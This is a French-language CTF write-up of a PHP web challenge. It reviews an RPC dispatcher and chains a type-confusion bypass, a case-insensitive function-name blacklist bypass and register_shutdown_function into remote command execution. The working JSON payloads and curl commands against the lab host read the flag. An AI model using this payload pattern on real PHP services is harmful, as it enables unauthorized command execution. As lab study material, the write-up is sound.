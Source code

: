 > Name: One\\RPC
> 
> Category:  Web
> 
> Difficulty: Medium/Hard
> 
> Description: 
> *One\RPC seems to be a new promising open source project. But can it be simple, powerful and secure at the same time ?*
> 
> *Review the source code of this project and help the community by finding a critical vulnerability.*

![Pasted image 20230730132345](https://github.com/pun-private/writeup-barbhack2023-web/assets/27222105/972e4ff5-79dd-486c-9ae6-5af16d103787)

**One\RPC** est un projet Open Source visant à simplifier et accélérer le développement des API. L'idée est qu'il y ait un unique endpoint POST où l'on envoie un seul JSON contenant trois champs :

```
{
    "api": "le nom du namespace de l'API",
    "func": "le nom de la méthode à appeler dans ce namespace",
    "args": [
	    "parametre 1",
	    "parametre 2",
	    "..."
    ]
}
```

Un exemple d'appel à cette api est :

```
$> curl -X POST 'http://challs.lab.algosecu.re:40006/demo-rpc/' --data-raw 
'{ "api" : "Greeting", "func": "welcome", "args": [ "Chuck" ] }'
```

Est-ce qu'il serait possible d'exécuter du code arbitraire ?

Tout d'abord, il est important de noter que la demo tourne en `PHP 7.4`  !

Le code source du projet demo à la structure suivante :
```
|__ API/    <- Les fichiers API à charger
|
|__ Public/ <- Dossier à exposer sur le webserveur
|	|__ index.php
|
|__ deps_loader.php <- chargeur automatique des fichiers de l'API
|__ dispatcher.php  <- le "routeur" de OneRPC

```

L'essentiel du projet se passe dans la fonction `call_api` du fichier `dispatcher.php` :

```php
function check_forbidden_func($func_name) {
    if (array_search($func_name, get_defined_functions()["internal"]) !== false) {
        throw new Exception("Forbidden function name.");
    }
}

function call_api($json) {

    if (empty($json->api) || preg_match('/^[\\\\]|[^a-zA-Z0-9\\\\]/', $json->api) === 1) {
        throw new Exception("Invalid 'api' endpoint.");
    }
    $json->api = rtrim($json->api, '\\');

    $json->func = "register_{$json->func}";
    check_forbidden_func($json->func);

    $api_func = "{$json->api}\\{$json->func}";
    if (function_exists($api_func) === false) {
        throw new Exception("Unknown function $api_func");
    }

    return $api_func(...(empty($json->args) ? [] : $json->args));
}
```

`$api_func` est une concaténation du namespace `$json->api` et de la fonction `register_${json->func}` ce qui donne par exemple : `Greeting\register_welcome`.

On va dans un premier temps essayer d'enlever la partie namespace :

```php
if (empty($json->api) || preg_match('/^[\\\\]|[^a-zA-Z0-9\\\\]/', $json->api) === 1) {
	throw new Exception("Invalid 'api' endpoint.");
}
$json->api = rtrim($json->api, '\\');
```

Dans ce code il y a trois problèmes :
1. "$json->api" n'est pas vérifié en tant que string
2. preg_match en PHP 7.4 émet un warning quand le deuxieme paramètre n'est pas une string et retourne false
3. rtrim en PHP 7.4 retourne NULL quand les types de paramètre ne sont pas du bon type

Cet extrait de JSON bypass cette partie et permet d'avoir NULL dans `$api_json` :

```
"api": [ "foo" ]
```

Pour pouvoir appeler une fonction native de PHP, il faut désormais contourner cette partie :

```php
$json->func = "register_{$json->func}";
check_forbidden_func($json->func);
```

Il faut trouver une fonction php native qui commence par `register_`. Pour cela, il suffit d'aller sur la documentation PHP et d'en trouver :

![Pasted image 20230730135444](https://github.com/pun-private/writeup-barbhack2023-web/assets/27222105/a8b1838a-7312-4d36-ae87-a4fb55439a67)

https://www.php.net/manual/en/function.register-shutdown-function => permet d'appeler une fonction à la fin d'exécution du script

Le problème c'est que le nom de cette fonction est détectée dans la vérification "check_forbidden_func" qui récupère le nom de toutes les fonctions internes PHP et le compare avec notre fonction... Sauf qu'en PHP, les noms des fonctions ne sont pas sensibles à la casse (contrairement aux nom de variable) =)

Donc nouveau bypass avec :

```
{
	"api": [ "foo" ],
	"func": "sHuTdOwN_function"
}
```

Maintenant il ne reste plus qu'à utiliser les bons paramètres :

```
{
	"api": [ "foo" ],
	"func": "sHuTdOwN_function",
	"args": ["system", "<command>"]
}
```


Flag :

```
$> curl -X POST 'http://challs.lab.algosecu.re:40006/demo-rpc/' --data-raw 
'{ "api" : [ "foo" ], "func": "sHuTdOwN_function", "args": ["system", "ls"] }'

{
    "result": null
}
0>___FLAG___<0
demo-rpc
front
html

$> curl -X POST 'http://challs.lab.algosecu.re:40006/demo-rpc/' --data-raw 
'{ "api" : [ "foo" ], "func": "sHuTdOwN_function", "args": ["system", "cat 0*/*"] }'

{
    "result": null
}
ALG{N4M3594C3_42817242Y_C0D3_3X3CU710N_4FUN}                                           
```
